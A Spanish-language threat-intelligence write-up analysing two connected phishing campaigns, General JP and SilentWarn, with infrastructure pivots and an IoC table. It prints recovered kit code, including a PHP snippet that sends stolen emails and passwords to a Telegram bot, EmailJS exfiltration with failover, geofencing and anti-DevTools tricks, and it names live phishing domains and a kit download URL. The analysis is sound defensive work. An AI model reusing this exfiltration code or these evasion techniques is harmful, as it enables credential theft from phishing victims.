


General JP y SilentWarn: dos campañas de phishing conectadas
General JP: redirección multi-capa, Google Cloud Storage y kit PHP con exfiltración a Telegram. SilentWarn: SPA React con geofencing a Vietnam. IoCs, patrones de infraestructura y correlación entre campañas.
/generaljp_silentwarn · 6 secciones
01. Resumen de inteligencia
En junio de 2025 identifiqué dos campañas de phishing activas que, aunque usan stacks tecnológicos diferentes, comparten patrones de infraestructura y fuentes de datos que sugieren una conexión operativa — o, como mínimo, un ecosistema de atacantes que recicla las mismas listas de correos filtrados. La Operación General JP usa Google Cloud Storage como punto de entrada, una cadena de redirección con dominios intermedios y un kit PHP que exfiltra credenciales por la API de Telegram. La Operación SilentWarn está construida en React con EmailJS y SMTPjs, implementa geofencing para redirigir a usuarios vietnamitas y se aloja en Cloudflare Pages.
Este artículo conecta ambos casos con la Threat Hunter Recollection, la Operación FakeWealth y la red bybsusd.com. El hilo conductor es la metodología: pivotar sobre infraestructura, leer los errores del adversario y correlacionar patrones entre campañas aparentemente independientes. El análisis se realizó desde el entorno blindado documentado en Infraestructura Ofuscada (WireGuard + proxy residencial) para no alertar a los operadores.
02. Operación General JP: phishing multi-capa con exfiltración a Telegram
Descubrimiento: URLs en caché y listas filtradas
El punto de partida fue una lista de URLs en caché que compartían patrón común usando Google Cloud Storage como infraestructura de entrada. Todas seguían una estructura donde el parámetro user contenía direcciones obtenidas de filtraciones masivas:
# Patrón de URL identificado en caché
https://185.80.129.110/public/?:nav=unsuboffre::tracker
&deploy=2046847
&user=test%40correo.com
&email_id=147138100La IP 185.80.129.110 está asociada a storage.googleapis.com. Al consultar los correos del parámetro user confirmé que todos provenían de tres fuentes principales: logs de Alien Stealer, breaches como Deezer y combolists como Zacks2024. El patrón —reutilizar bases filtradas para alimentar spam— es el mismo documentado en la Threat Hunter Recollection (caso Rekrute y ShinyHunters) y en la Operación FakeWealth: la filtración de datos se convierte en insumo de fraude masivo años después.
Cadena de redirección multi-capa
El grafo de infraestructura mapea el flujo completo: el tráfico inicia en Google Cloud Storage y salta secuencialmente por múltiples dominios hasta el destino final.

El generador de redirección dinámica construía el siguiente destino con JavaScript en función de los parámetros de la URL. El parámetro encoded_value contenía un Base64 que, decodificado, revelaba el identificador de campaña segmentado:
document.getElementById('button1').addEventListener("click", function(){
var urlParams = new URLSearchParams(window.location.search);
var encodedValue = urlParams.get('encoded_value');
var domain = urlParams.get('domain');
var sub1 = urlParams.get('sub1');
var sub2 = urlParams.get('sub2');
var sub3 = urlParams.get('sub3');
var sub4 = urlParams.get('sub4');
var sub5 = urlParams.get('sub5');
window.location.href = "https://" + domain + "/cmp/" + encodedValue + "/JMMGSF/?source_id=" + …
}, false);Dependiendo del perfil de la víctima, el destino final variaba: unos correos llevaban a una falsa página de FedEx, otros a un supuesto portal de noticias canadiense y otros a una inmobiliaria fraudulenta cuya plantilla ni siquiera había sido modificada (dejaron la URL original de descarga). Si se omitía el parámetro, la redirección se frenaba con un mensaje emergente pidiendo el valor faltante. Confirma el diseño: segmentar campañas por perfil de víctima usando el mismo backend.
El servidor de correo y la Filemail API
El envío masivo de spam estaba impulsado por la API de Filemail (filemail.com), abusada con parámetros ofuscados en strings segmentados reconstruidos en tiempo de ejecución:
# Estructura de la API de Filemail abusada por los atacantes
POST /api/transfer/complete?logintoken=KDJF9JDF7JFN754H
&transferid=HGTUIJBGTRFGJPO
&transferkey=3783hf73h783jhdf83j93kEl último parámetro de la URL contenía el dominio con el que se disfrazaba el origen (www.mechatecha1520.com), técnica clásica de email spoofing para evadir filtros antispam.
Google Cloud Storage (script de redirección), Filemail API (envío de correos) e IPFS (enmascarar la IP del servidor) — el abuso de servicios legítimos es constante en phishing moderno. Mismo patrón que la Operación FakeWealth con Cloudflare/Google Cloud/NameCheap. La diferencia aquí: un servidor intermedio en Lituania sin dominio que actuaba como punto de entrega de contenido malicioso y, posiblemente, de malware.
El kit «General JP»
Uno de los hallazgos más valiosos fue la recuperación de reservigt.com/japangenerals.zip. La captura muestra el archivo logins.html renderizado — una bitácora centralizada donde el backend volcaba secuencialmente las credenciales robadas:

El correo que inicia la cadena suplanta a Meta for Business con una técnica basada en urgencia y miedo ante una supuesta infracción de propiedad intelectual:

El backend next.php era el núcleo: escribía las credenciales en logins.html, enviaba una alerta real-time por Telegram y redirigía a la víctima al sitio legítimo. Incluía reconocimiento y perfilado del visitante:

// Mensaje de telemetría enviado a Telegram
$StyledMessage = "<b>🚨 NEW LOGIN ACCESS</b>\n";
$StyledMessage .= "<b>📧 Email:</b> <code>$user</code>\n";
$StyledMessage .= "<b>🔐 Password:</b> <code>$pass</code>\n";
$StyledMessage .= "<b>🌍 IP:</b> <a href='https://ip-api.com/$ip'>$ip</a>\n";
$StyledMessage .= "<b>🏙 Location:</b> $city, $region, $country\n";
$StyledMessage .= "<b>📡 ISP:</b> $isp\n";
$StyledMessage .= "<b>💻 Device:</b> $device_os\n";
$StyledMessage .= "<b>🌐 Browser:</b> $browser\n";
$StyledMessage .= "<i>📥 Sent from GENERAL JP</i>";
$website = "https://api.telegram.org/bot{$botToken}/sendMessage";
$params = [
'chat_id' => $user_id,
'text' => $StyledMessage,
'parse_mode' => 'HTML'
];Dos canales: logins.html como almacenamiento persistente en el servidor y la API de Telegram como canal de notificación real-time. Si se encontrara un kit con el token activo —las variables $user_id y $botToken estaban vacías en la muestra recuperada—, se podría acceder a todo el historial de víctimas.
03. Operación SilentWarn: phishing en React con geofencing vietnamita
Descubrimiento y vector de entrada
Apenas unas semanas después de General JP, llegó un nuevo correo: remitente eogagnzgytatmtneaeseof@sell9proxy.com —dominio registrado desde diciembre de 2024 vía one.com— y enlace acortado de Rebrandly: rebrand[.]ly/WebSite22fc63. La campaña tenía poco: la única referencia pública era una denuncia aislada de principios de junio de 2025.
Infraestructura técnica: React + EmailJS + SMTPjs
El enlace redirigía a silentwarn-2569-formsubmit-[…].pages[.]dev en Cloudflare Pages. El HTML inicial revelaba una aplicación React (Create React App) con smtpjs.com/v3/smtp.js cargado en el frontend y EmailJS como servicio de exfiltración:
<!-- HTML inicial del sitio SilentWarn -->
<!doctype html>
<html lang="en">
<head>
<meta name="robots" content="noindex, nofollow"/>
<title>Meta for Business | Privacy Center</title>
</head>
<body>
<script src="https://smtpjs.com/v3/smtp.js"></script>
</body>A diferencia de General JP (backend PHP + Telegram), SilentWarn es arquitectura 100% JavaScript: React para el frontend, EmailJS para el envío y SMTPjs como cliente SMTP incrustado — con un sistema de respaldo que conmuta a credenciales secundarias si el servicio principal falla.
Geofencing: protegiendo al atacante vietnamita
El hallazgo más revelador: la app consultaba get.geojs.io/v1/ip/geo.json y, si la IP era de Vietnam (VN), redirigía inmediatamente a Facebook:
fetch("https://get.geojs.io/v1/ip/geo.json")
.then((res) => res.json())
.then((data) => {
if (data.country_code === "VN")
window.location.href = "https://www.facebook.com/";
})
.catch(console.error);Redirigir a los usuarios del país de origen evita que sean víctimas propias y, sobre todo, protege la infraestructura de ser analizada por investigadores locales. Los comentarios en vietnamita dispersos en el código refuerzan la hipótesis. Técnica conceptualmente similar al geofencing de la red bybsusd.com.
Además: bloqueo de DevTools vía event listener para F12, Ctrl+Shift+I, Ctrl+Shift+J, Ctrl+Shift+C y Ctrl+U, y un splash screen de 6 segundos con video a pantalla completa antes del contenido principal — ofuscación para evadir análisis automatizados.
Flujo de exfiltración
Los datos se enviaban por correo vía api.emailjs.com tras capturar geolocalización con un iplogger:
const handleSendMailJs = (data) => {
const primaryServiceId = process.env.REACT_APP_EMAILJS_SERVICE_ID;
const primaryTemplateId = process.env.REACT_APP_EMAILJS_TEMPLATE_ID;
const primaryPublicKey = process.env.REACT_APP_EMAILJS_PUBLIC_KEY;
const backupServiceId = process.env.REACT_APP_EMAILJS_BACKUP_SERVICE_ID;
const backupTemplateId = process.env.REACT_APP_EMAILJS_BACKUP_TEMPLATE_ID;
const backupPublicKey = process.env.REACT_APP_EMAILJS_BACKUP_PUBLIC_KEY;
// Intenta el servicio primario; si falla, conmuta al backup
const apiUrl = process.env.REACT_APP_API_URL;
};EmailJS + SMTPjs representan la evolución frente a los kits PHP: toda la lógica de exfiltración reside en el cliente, lo que dificulta el rastreo del backend.
04. Correlación y patrones
Stacks distintos —PHP con Telegram vs React con EmailJS—, pero los patrones las conectan dentro del mismo ecosistema:
- Fuente de correos: ambas usan listas de filtraciones masivas (Alien Stealer, combolists, breaches de plataformas).
- Abuso de infraestructura legítima: Google Cloud Storage y Filemail API (General JP); Cloudflare Pages, EmailJS, SMTPjs y Rebrandly (SilentWarn).
- Geofencing como protección: SilentWarn redirige a vietnamitas; General JP segmenta el destino final por perfil.
- Exfiltración multicanal: Telegram + archivo local (General JP); EmailJS primario + backup (SilentWarn).
- Pereza operacional: plantilla original sin modificar en General JP (hasta el Untitled.png sin renombrar); comentarios en vietnamita y variables de entorno de EmailJS expuestas en SilentWarn.
Dominios baratos (one.com), alojamiento gratuito (Cloudflare Pages, GCS) y exfiltración sobre APIs legítimas. Infraestructura desechable alimentada por bases filtradas — el mismo modelo de la red bybsusd.com y la Operación FakeWealth. La diferencia: estas campañas son más ágiles. Se levantan en días, operan semanas y desaparecen cuando las listas se agotan o los dominios se bloquean.
05. IoCs consolidados
| Campaña | Tipo | Valor |
|---|---|---|
| General JP | IP servidor spam | 185.80.129.110 |
| Dominio redirección | yournextlvlredirect.com | |
| Dominio redirección | mechatecha1520.com | |
| Endpoint phishing | megalift-bn.xyz/mason/chameleon.php | |
| Kit de phishing | reservigt.com/japangenerals.zip | |
| SilentWarn | Dominio acortador | rebrand[.]ly/WebSite22fc63 |
| Dominio phishing | silentwarn-2569-formsubmit-[…].pages[.]dev | |
| Remitente spam | @sell9proxy.com | |
| Servicio exfiltración | api.emailjs.com |
06. Conclusión
General JP y SilentWarn representan dos caras del phishing moderno: campañas ágiles, de bajo costo, que abusan de infraestructura legítima y reciclan bases filtradas para maximizar alcance. La diferencia técnica —PHP tradicional vs React con EmailJS— refleja la diversidad de stacks del adversario; los patrones subyacentes son los mismos.
Para el threat hunter la lección es clara: los IoCs individuales caducan rápido, pero los patrones de infraestructura —abuso de GCS/Cloudflare Pages/APIs de correo, geofencing para proteger al atacante, reutilización de listas filtradas— son atemporales. La detección proactiva debe pivotar sobre patrones, no sobre dominios. Serie completa en la Threat Hunter Recollection: la infraestructura es el talón de Aquiles del adversario.